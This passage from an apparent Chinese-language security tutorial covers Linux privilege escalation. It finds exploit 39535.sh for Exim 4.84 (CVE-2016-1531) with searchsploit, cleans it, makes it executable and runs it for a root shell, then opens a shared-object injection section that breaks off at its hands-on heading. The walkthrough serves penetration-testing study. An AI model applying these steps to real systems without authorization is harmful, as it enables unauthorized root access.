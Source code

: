 Exim 是一个邮件转账代理，但是它存在许多安全漏洞

### 2.版本确认：

```php
/usr/sbin/exim-4.84-3 --version 
```

![image-20210630181009415](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-05165101685f92cfc23ff1911f21c4d4e5c52a9e.png)

### 3.漏洞寻找

```php
searchsploit exim 4.84 
```

![image-20210630181114318](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-302ebb0dc672c6ed1fff2ca7f03746e63a3f7932.png)

这个：`linux/local/39535.sh`

### 4.漏洞利用(CVE-2016-1531)

脚本复制到目标机器上。您可能需要从脚本中删除^M字符：

```php
sed -e "s/^M//" 39535.sh > a001.sh
```

注意：要获得^M，必须按住Ctrl，然后连续按V和M。

### 5.加权

```php
chmod +x a001.sh
```

![image-20210704110724989](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3e9e0d7844708731bcb4009d3c5dd27b757b86f0.png)

### 6.执行脚本以获得根壳：

```php
./a001.sh 
```

![image-20210704110700833](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0a631ed1b6ebacb903c2969c1df70c4ab3779892.png)

共享对象注入
------

### 前言

执行程序时，它将尝试加载所需的共享对象。  
通过使用称为strace 的程序，我们可以跟踪这些系统呼叫并确定是否未找到任何共享对象。  
如果我们可以写信给程序尝试 打开的位置，我们可以创建一个共享对象，并在加载时生成root

### 实操
